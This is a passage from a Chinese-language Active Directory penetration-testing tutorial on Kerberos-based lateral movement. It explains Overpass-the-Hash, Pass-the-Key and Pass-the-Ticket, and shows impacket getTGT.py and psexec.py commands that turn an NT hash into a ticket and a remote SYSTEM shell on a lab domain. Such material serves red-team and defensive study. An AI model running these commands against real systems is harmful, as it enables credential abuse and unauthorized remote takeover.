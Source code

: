 这样的话，你就使用了 NTLM 作为认证机制，这可能不是最好的选择，因为在活动目录中默认使用 Kerberos。

要使用 Kerberos，你需要向上述工具提供一个 Kerberos 票据。在 impacket 中，你可以设置一个 [ccache](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-linux) 文件给 impacket 使用，而在 Windows 中，你将需要使用 [mimikatz](https://github.com/gentilkiwi/mimikatz) 或 [Rubeus](https://github.com/GhostPack/Rubeus) 在会话中[注入票据](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#using-ticket-in-windows)。

为了获得可用的 Kerberos 票据，可以通过使用用户密码、NT 哈希值（Overpass-the-Hash）或 Kerberos 密钥（Pass-The-Key）来请求一个票据，或者可以简单地从 Windows 或 Linux 机器上偷一个票据并使用它（Pass-The-Ticket）。

Windows 和 Linux 机器（以及面向它们的工具）使用了不同的票据文件格式，所以 Linux 票据移到 Windows 机器上可能会出现问题，反之亦然。你可以通过使用 [ticket_converter](https://github.com/Zer1t0/ticket_converter) 或 [cerbero](https://github.com/Zer1t0/cerbero#convert) 在不同的格式之间转换票据。

> psexec.py with Kerberos authentication

```
$ getTGT.py contoso.local/Anakin -dc-ip 192.168.100.2 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Saving ticket in Anakin.ccache
$ export KRB5CCNAME=$(pwd)/Anakin.ccache
$ psexec.py contoso.local/Anakin@WS01-10 -target-ip 192.168.100.10 -k -no-pass
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 192.168.100.10.....
[*] Found writable share ADMIN$
[*] Uploading file TwIEeeqd.exe
[*] Opening SVCManager on 192.168.100.10.....
[*] Creating service ZQZb on 192.168.100.10.....
[*] Starting service ZQZb.....
[!] Press help for extra shell commands
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
b'Not enough memory resources are available to process this command.\r\n'
C:\Windows\system32&gt;
```

当使用 Kerberos 认证时，你需要把远程机器的主机名（DNS 名称或 NetBIOS 名称）作为目标传递给工具，而不是其 IP。这是因为 Kerberos 认证使用主机名来识别远程机器的服务，并提供正确的票据来对其进行认证。

如果你使用 IP 地址，你会看到以下错误：

> Using IP address with Kerberos authentication

```
$ psexec.py contoso.local/Anakin@192.168.100.10 -k -no-pass
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

**<a class="reference-link" name="%E7%94%A8%20Powershell%20Remoting%20%E8%BF%9E%E6%8E%A5"></a>用 Powershell Remoting 连接**


[dc01]: PS C:\Users\Administrator\Documents&gt; whoami
[dc01]: PS C:\Users\Administrator\Documents&gt; hostname